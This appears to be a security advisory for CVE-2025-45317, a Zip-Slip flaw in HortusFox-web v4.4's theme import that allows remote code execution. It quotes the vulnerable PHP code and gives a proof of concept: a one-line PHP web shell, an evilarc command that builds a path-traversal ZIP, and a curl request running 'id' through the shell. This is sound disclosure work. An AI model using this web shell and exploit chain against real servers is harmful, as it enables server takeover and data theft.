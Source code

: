 ### CVE-2025-45317 - Authenticated Zip-Slip in HortusFox-web v4.4

### 1. Executive Summary

A **ZIP-slip** vulnerability in the theme import functionality of hortusfox-web v4.4 allows an authenticated administrator to drop arbitrary files—such as a PHP web shell—into the publicly addressable `/themes` directory. Once extracted, the attacker can remotely execute code by invoking the uploaded shell, leading to full RCE on the server.

### 2. Vulnerability Details
1. in [ThemeModule.php](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php) the [startImport()](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php#L165) method handles theme uploads and extraction:
```php
    public static function startImport()
    {
        try {
            if ((!isset($_FILES['theme'])) || ($_FILES['theme']['error'] !== UPLOAD_ERR_OK) || (strpos($_FILES['theme']['type'], 'zip') === false)) {
                throw new \Exception('Failed to upload file or invalid file uploaded');
            }

            $result = [];

            $import_file = 'theme_import_' . date('Y-m-d_H-i-s');

            move_uploaded_file($_FILES['theme']['tmp_name'], public_path() . '/themes/' . $import_file . '.zip');

            $zip = new ZipArchive();

            if ($zip->open(public_path() . '/themes/' . $import_file . '.zip')) {
                $zip->extractTo(public_path() . '/themes/' . $import_file);
                $zip->close();

                $folders = scandir(public_path() . '/themes/' . $import_file);
                foreach ($folders as $folder) {
                    if (substr($folder, 0, 1) !== '.') {
                        if (!is_dir(public_path() . '/themes/' . $folder)) {
                            rename(public_path() . '/themes/' . $import_file . '/' . $folder, public_path() . '/themes/' . $folder);

                            static::load(public_path() . '/themes/' . $folder);
                            if (!static::ready()) {
                                throw new \Exception('Failed to load theme: ' . $folder);
                            }

                            LogModel::addLog(auth()->get('id'), 'themes', 'import_theme', self::$theme_data->name);

                            $result[] = $folder;
                        }
                    }
                }

                UtilsModule::clearFolder(public_path() . '/themes/' . $import_file);
            }

            unlink(public_path() . '/themes/' . $import_file . '.zip');

            return $result;
        } catch (\Exception $e) {
            throw $e;
        }
    }
```

2. [extractTo()](https://github.com/danielbrendel/hortusfox-web/blob/8ab851101a62d8eb311235c118eeeb32a9b36978/app/modules/ThemeModule.php#L181) does not validate archive entries, so a ZIP containing `../../../payload.php` will write `public/themes/../payload.php` → `theme/payload.php`.

3. The extraction target is under `public_path() . '/themes'`, which is served by the web server; attackers can then request any uploaded `.php` file.

### 3. Proof-of-Concept
1. **Create a PHP web shell* (`payload.php`):
```php
<?php system($_GET['cmd']); ?>
```

2. **Craft a malicious ZIP** with entries such as `../../payload.php` pointing outside `.../themes/theme_import_xxx/`.
```bash
python2 evilarc.py -f evil.zip -d 3 -o unix payload.php
```
	https://github.com/ptoomey3/evilarc.git
3. **Upload** the ZIP as an administrator via the theme-import UI.

4. **Trigger Extraction** by submitting the form.
	an error message "Theme definition file not found: /var/www/html/public/themes/payload.php/theme.json" will pop up after uploading we can ignore this

5. **Invoke RCE**
```
curl http://localhost:8080/themes/payload.php?cmd=id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 4. Impact

- **Full Server Compromise:** Arbitrary command execution as the web-server user.
    
- **Persistence & Lateral Movement:** Upload additional tools or pivot to internal services.
    
- **Data Exfiltration or Tampering:** Read/write sensitive configuration, database credentials, source code, etc.

- **The Other CVEs can steal an admin session via XSS and enable any user to access this panel**

### Screenshots
Theme endpoint
![](images/1.png)

Select `evil.zip` to upload
![](images/2.png)

Upload `evil.zip` the warning can be ignored here as it does not affect the file upload
![](images/3.png)

Visit `/themes/payload.php?cmd=id` to get remote execution
![](images/4.png)
